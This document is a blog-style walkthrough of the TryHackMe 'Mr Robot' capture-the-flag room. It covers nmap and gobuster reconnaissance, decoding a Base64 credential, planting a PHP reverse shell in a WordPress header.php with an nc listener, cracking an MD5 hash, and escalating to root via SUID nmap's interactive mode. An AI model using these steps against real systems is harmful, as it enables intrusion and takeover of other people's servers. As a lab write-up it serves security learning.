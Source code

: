 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Try Hack Me - Mr Robot
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps

#### Nmap Results

```
sudo nmap -Pn -A 10.10.242.39
```


![image](https://github.com/user-attachments/assets/de811a40-544a-4d62-bafd-f03e64b11c4d)

Port scans revealed that ports 80 and 443 were open, indicating that HTTP and HTTPS services were running on these ports, respectively.

![image](https://github.com/user-attachments/assets/add084e3-351a-4e2a-89a7-c2a17e62f267)

Upon inspecting the source code, nothing useful was found. In addition to searching for the source code, the examination of the `robots.txt` file, which is used by search engine crawlers to determine which files are allowed for parsing, was carried out.

### First Flag

![image](https://github.com/user-attachments/assets/654b72d0-0600-4270-b67f-8c484d9fcb98)

We now have two files: one is a text file containing the first key, and the other is a dictionary file.


### Second Flag

Let's download the dictionary file and use it to perform a directory brute-force attack.
```
wget 10.10.144.37/fsocity.dic
```

```
gobuster dir -u http://10.10.144.37/ -w fsocity.dic
```

![image](https://github.com/user-attachments/assets/d634c8d3-b4d0-42ca-9bfc-eb29b404486b)


While brute-forcing the directories using the dictionary file, we discovered some interesting files. One of them was `license`. Upon accessing the `license` directory, we found a Base64-encoded value in the source code.

![image](https://github.com/user-attachments/assets/5310dbf4-f758-498f-92b0-10b39767c68d)

After decoding the Base64 string, we uncovered the username and password for login.

```
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```
![image](https://github.com/user-attachments/assets/67210e9f-56d4-4a67-8159-8c0f10a94318)

```
elliot:ER28-0652
```
The username and password can be used to log in via the /login path, which was identified during the directory brute forcing process.

![image](https://github.com/user-attachments/assets/af2185cb-1545-4870-8c1e-4956588a5b2c)

![image](https://github.com/user-attachments/assets/ada544a9-71ac-4bd6-a2f5-dae38f08ca3d)

Now that we are logged in, let's use the PHP reverse shell from Kali Linux. We can upload it via the Editor in the Appearance menu by editing the header.php file. This ensures that whenever the website loads, the header.php file gets executed, allowing us to establish a connection back to our machine.

```
sudo updatedb
```

```
locate php-reverse-shell
```

```
cp /usr/share/webshells/php/php-reverse-shell.php .
```

![image](https://github.com/user-attachments/assets/b1622402-ae7b-4184-9ad0-591eaa7ff18d)

![image](https://github.com/user-attachments/assets/721e931d-972e-4525-8332-5a77c6f892a9)

![image](https://github.com/user-attachments/assets/51a7d4a4-042d-4386-a62d-1c0a817b0111)

![image](https://github.com/user-attachments/assets/0a5f9734-0b18-4d24-9560-eb1a67df13ca)


By listening on port `9001`, we successfully gained a connection when navigating to `/blog`, a page accessible only to the admin.

```
nc -nlvp 9001
```

![image](https://github.com/user-attachments/assets/3f7082ae-e5c5-414c-bb09-ed8107edc378)

After spawning /bin/bash using Python, I executed ls -la to list the files in the directory. It was revealed that we were logged in as the user daemon. However, the key file was only readable by the user robot. Another file, named password.raw-md5, contained an MD5 hash value.

```
python -c 'import pty;pty.spawn("/bin/bash");'
```
![image](https://github.com/user-attachments/assets/a7d99a16-7623-4745-a46e-24975db52f00)

![image](https://github.com/user-attachments/assets/7a0392b3-9374-43e0-9881-dab7781be9ab)

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Upon cracking the MD5 hash using CrackStation, the password for the robot user was discovered.

![image](https://github.com/user-attachments/assets/13599298-b649-4ad0-8fb0-6f86ddf448a8)

```
abcdefghijklmnopqrstuvwxyz
```
After switching the user and using the discovered password, we successfully logged in as robot. 

![image](https://github.com/user-attachments/assets/6e76fe37-69e4-4099-bd29-f73b35a2186d)

Now that we have access as robot, we can read the key file, revealing the second flag.


### Privilege Escalation & Third Flag

```
sudo -l
```
Upon checking the user's privileges with `sudo -l`, it was identified that the user `robot` is not in the sudo group, meaning it doesn't have administrative privileges by default. This indicates that we will need to find another way to escalate privileges to gain root access.

![image](https://github.com/user-attachments/assets/3034c35a-de33-4a8f-9082-05f15f148105)


```
find / -perm -u=s -type f 2>/dev/null
```

By searching for SUID binaries, we discovered that nmap has the SUID bit set. This means nmap can be run with elevated privileges, even by a non-privileged user. We can potentially exploit this to escalate our privileges to root by using nmap's interactive mode to execute shell commands.

![image](https://github.com/user-attachments/assets/4b3d0431-1737-46d7-b863-c3eaa5c512bf)

Privilege escalation can be achieved by running the following commands:

1. Start nmap in interactive mode with:

```
nmap --interactive
```

2. Once in interactive mode, execute a shell with:

```
!sh
```

This grants root access, allowing us to further explore the system and complete the final steps of the CTF.

![image](https://github.com/user-attachments/assets/31174e70-dbd5-480b-a3ec-751bc2f6c5d7)

